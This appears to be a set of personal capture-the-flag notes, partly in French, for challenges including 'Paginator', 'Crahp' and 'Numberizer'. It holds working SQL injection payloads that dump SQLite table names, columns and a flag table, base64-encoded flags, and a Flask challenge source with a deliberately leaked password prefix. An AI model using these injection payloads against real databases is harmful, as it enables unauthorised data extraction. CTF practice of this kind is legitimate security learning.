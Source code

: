 # Paginator


http://52.59.124.14:5012/?p=2,10

http://52.59.124.14:5012/?p=2,10%20OR%201=1

RU5Pe1NRTDFfVzF0aF8wdVRfQzBtbTRfVzBya3NfU29tZUhvdyF9


http://azfafezfezfezfefqdersg.com/?p=2,10%20OR%201=1

UNION SELECT table_name as title, 1 as id, 'abc' as content FROM information_schema.tables
UNION (SELECT name as title FROM sqlite_master WHERE type='table') JOIN (SELECT 1 as id) as t2 JOIN (SELECT 'abc' as content) as t3

```sql
CREATE TABLE pages (id INTEGER PRIMARY KEY, title TEXT UNIQUE, content TEXT);
INSERT INTO pages (title, content) VALUES ('Page 1', 'This is not a flag, but just a boring page.');
INSERT INTO pages (title, content) VALUES ('Page 2', 'This is not a flag, but just a boring page.');
INSERT INTO pages (title, content) VALUES ('Page 3', 'This is not a flag, but just a boring page.');
INSERT INTO pages (title, content) VALUES ('Page 4', 'This is not a flag, but just a boring page.');
INSERT INTO pages (title, content) VALUES ('Page 5', 'This is not a flag, but just a boring page.');
INSERT INTO pages (title, content) VALUES ('Page 6', 'This is not a flag, but just a boring page.');
INSERT INTO pages (title, content) VALUES ('Page 7', 'This is not a flag, but just a boring page.');
INSERT INTO pages (title, content) VALUES ('Page 8', 'This is not a flag, but just a boring page.');
INSERT INTO pages (title, content) VALUES ('Page 9', 'This is not a flag, but just a boring page.');
INSERT INTO pages (title, content) VALUES ('Page 10', 'This is not a flag, but just a boring page.');
```

Pour le nom des tables :
UNION SELECT * FROM (SELECT name as title FROM sqlite_master WHERE type='table')UT1 JOIN (SELECT 1 as id)UT2 JOIN (SELECT 'abc' as content)UT3

Pour le nom des cols :
UNION SELECT * FROM (SELECT name as title FROM PRAGMA_table_info('flag'))UT1 JOIN (SELECT 1 as id)UT2 JOIN (SELECT 'abc' as content)UT3

Pour le contenu :
UNION SELECT * FROM (SELECT id as id FROM flag)UT1 JOIN (SELECT name as title FROM flag)UT2 JOIN (SELECT value as content FROM flag)UT3

RU5Pe1NRTDFfVzF0aF8wdVRfQzBtbTRfVzBya3NfU29tZUhvd19BZ0Exbl9BbmRfQWc0MW4hfQ==



from flask import Flask, request, redirect, render_template_string
import sys
import os
import bcrypt
import urllib.parse

app = Flask(__name__)
app.secret_key = os.urandom(16); # This is super strong! The password was generated quite securely. Here are the first 70 bytes, since you won't be able to brute-force the rest anyway... 
# >>> strongpw = bcrypt.hashpw(os.urandom(128),bcrypt.gensalt()) 
# >>> strongpw[:71] #b'\xec\x9f\xe0a\x978\xfc\xb6:T\xe2\xa0\xc9<\x9e\x1a\xa5\xfao\xb2\x15\x86\xe5$\x86Z\x1a\xd4\xca#\x15\xd2x\xa0\x0e0\xca\xbc\x89T\xc5V6\xf1\xa4\xa8S\x8a%I\xd8gI\x15\xe9\xe7$M\x15\xdc@\xa9\xa1@\x9c\xeee\xe0\xe0\xf76'
app.ADMIN_PW_HASH = b'$2b$12$8bMrI6D9TMYXeMv8pq8RjemsZg.HekhkQUqLymBic/cRhiKRa3YPK'
FLAG = open("flag.txt").read();

@app.route('/source')
def source():
    return open(__file__).read()
        
@app.route('/', methods=["GET"]) 
def index(): 
    username = request.form.get("username", None)
    password = request.form.get("password", None)
    if username and password:
        username = urllib.parse.unquote_to_bytes(username) 
        password = urllib.parse.unquote_to_bytes(password)
    if username != b"admin":
        return "Wrong user!"
    if len(password) > 128: 
        return "Password too long!"
    if not bcrypt.checkpw(password, app.ADMIN_PW_HASH):
        return "Wrong password!" 
    return f"""Congrats! It appears you have successfully bf'ed the password. Here is your {FLAG}""" # Use f-string formatting within the template string template_string = """


## Profound toughts

https://stylesuxx.github.io/steganography/


## Numberizer

4 char max

5 * 9e99 = overflow

## Crahp

Bruteforce